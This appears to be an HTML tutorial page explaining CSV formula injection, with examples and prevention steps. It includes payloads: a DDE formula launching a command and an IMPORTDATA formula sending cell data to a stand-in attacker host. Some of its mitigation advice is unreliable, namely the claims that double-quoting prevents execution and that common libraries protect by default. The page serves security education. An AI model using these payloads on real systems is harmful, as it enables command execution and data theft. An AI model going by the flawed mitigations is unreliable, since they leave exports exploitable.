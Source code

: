 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">

</head>
<body>

  <h1>📊 CSV Injection – Exploiting Spreadsheets with Malicious Data</h1>

  <h2>👶 For Beginners: What is CSV Injection?</h2>
  <p>
    CSV (Comma-Separated Values) files are widely used to store and share tabular data. However, if a web application allows users to export unvalidated input into a CSV file, attackers can inject malicious spreadsheet formulas that execute when the file is opened.
  </p>

  <p>
    💡 <strong>CSV Injection</strong> occurs when an attacker injects malicious formulas (e.g., =SUM(A1:A2), =CMD|'/C calc'!A0) into a CSV file, leading to unauthorized actions or data exfiltration.
  </p>

  <h2>🔍 Technical Explanation of CSV Injection</h2>
  <p>
    Many spreadsheet programs (like Microsoft Excel, Google Sheets, and LibreOffice) allow cell formulas starting with =, @, +, or -. If an attacker injects a formula into a CSV file, it can:
  </p>

  <ul>
    <li>✔️ Execute system commands (when combined with macros).</li>
    <li>✔️ Steal user data via external links (=IMPORTDATA("http://attacker.com?data="&A1)).</li>
    <li>✔️ Manipulate spreadsheet contents.</li>
    <li>✔️ Bypass security controls in CSV-based processing systems.</li>
  </ul>

  <div class="highlight">
    🚨 <strong>CSV Injection</strong> is also known as Formula Injection or Excel Macro Injection.
  </div>

  <h2>🚨 Real-World CSV Injection Attack Example</h2>
  <h3>📩 Scenario: Malicious Formula in User Data Export</h3>
  <p>A web app allows users to enter their names, which are later exported as a CSV file:</p>
  <pre><code>ID,Name,Email
1,John Doe,john@example.com
2,=CMD|'/C calc'!A0,attacker@example.com</code></pre>

  <h3>💀 How an Attacker Exploits It</h3>
  <ol>
    <li>The attacker enters a malicious formula (=CMD|'/C calc'!A0) into the "Name" field.</li>
    <li>When an admin downloads and opens the exported CSV file in Excel, the formula executes automatically.</li>
    <li>This can launch a calculator, execute system commands, or steal sensitive data. 😱</li>
  </ol>

  <div class="highlight">
    💡 <strong>Key Takeaway:</strong> Always sanitize user input before exporting to CSV!
  </div>

  <h2>🛡️ How to Prevent CSV Injection?</h2>

  <h3>✔️ 1. Escape Dangerous Characters (=, +, -, @)</h3>
  <ul>
    <li>✅ Prefix user-generated data with a single quote (') to prevent formula execution:</li>
  </ul>
  <pre><code>Vulnerable Output:
2,=SUM(A1:A2),attacker@example.com
Secure Output:
2,'=SUM(A1:A2),attacker@example.com</code></pre>

  <h3>✔️ 2. Enclose All Fields in Double Quotes</h3>
  <ul>
    <li>✅ Wrap all CSV values in double quotes to prevent formula execution:</li>
  </ul>
  <pre><code>"2","=SUM(A1:A2)","attacker@example.com"</code></pre>

  <h3>✔️ 3. Validate & Sanitize User Input</h3>
  <ul>
    <li>✅ Reject inputs starting with =, +, -, or @ at the application level.</li>
    <li>✅ Use allowlists to accept only valid characters.</li>
  </ul>

  <h3>✔️ 4. Use a Secure CSV Export Library</h3>
  <ul>
    <li>✅ Libraries like Pandas (Python) or OpenCSV (Java) offer built-in protection against CSV Injection.</li>
  </ul>

  <h3>✔️ 5. Warn Users About CSV Risks</h3>
  <ul>
    <li>✅ Educate users to disable automatic formula execution in their spreadsheet software.</li>
    <li>✅ Encourage safe viewing in text editors before opening CSV files in Excel.</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>
    CSV Injection is a lesser-known but dangerous attack that exploits how spreadsheet software processes formulas. It can lead to code execution, data theft, and unauthorized actions if exported data isn’t sanitized properly.
  </p>
  <p>
    💡 Developers must escape dangerous characters, validate user input, and use secure CSV export methods to prevent this risk!
  </p>
  <p>
    By following best practices for CSV security, escaping special characters, and educating users, we can effectively mitigate CSV Injection threats.
  </p>

  <h3>🔐 Stay Secure, Stay Informed!</h3>

</body>
</html>
